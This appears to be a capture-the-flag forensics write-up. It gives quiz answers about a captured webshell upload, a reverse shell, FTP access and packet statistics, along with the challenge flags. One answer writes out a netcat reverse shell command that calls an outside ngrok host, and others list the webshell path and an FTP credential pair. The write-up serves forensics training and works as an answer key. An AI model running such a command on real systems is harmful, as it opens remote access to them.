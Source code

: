 ## Solve:

### Quiz 1

1. What is the IP address for the vulnerable website? <br>
  `206.89.59.199`
2. What is the name of the file with file upload functionality? (just the name, no relative location) <br>
  `fileupload1.php`
3. What is the name of the first file uploaded? <br>
  `linux-sandwich-cracker-box.JPG`
4. Looking at the webshell uploaded, what was its original name? <br>
  `another_obfuscated_phpshell.php`
5. What is the relative location of the uploaded webshell? <br>
  `/uploads/shell.php`
6. What was the first command executed using the webshell? <br>
  `whoami`
7. What is the reverse shell command executed through the webshell? (before encoding) <br>
  `nc 0.tcp.eu.ngrok.io 17344 -e /bin/bash`
8. What is the correct order? <br>
  `[protocol]://[host]:[port]/[path]?[query]#[fragment]`
9. What type of web server was used? <br>
  `Apache/2.4.38`

<br>

### Quiz 2

1. Which user have we been spawned as after getting the reverse shell? <br>
  `www-data`
2. What is the flag you found after getting the reverse shell? <br> 
  `flag{way_to_go}`
3. What version of FTP is used on the victim server? <br>
  `vsFTPd 3.0.3`
4. What is the pair of credentials used for FTP login? <br>
  `ftpuser:flag`
5. What is the first command executed on the ftp server? <br>
  `ls`
6. How many files were available to retrieve from the ftp server? <br>
  `2`
7. On what date were the FTP files retrieved? <br>
  `27 Dec`
8. UDP packets; IPv6 packets; total number of packets; <br>
  `2; 3; 1057`
9. How many seconds did the packet capture record? <br>
  `160`
  
<br><br>

## Flag:

`flag{forensics_analyst;you_did_a_good_job}`
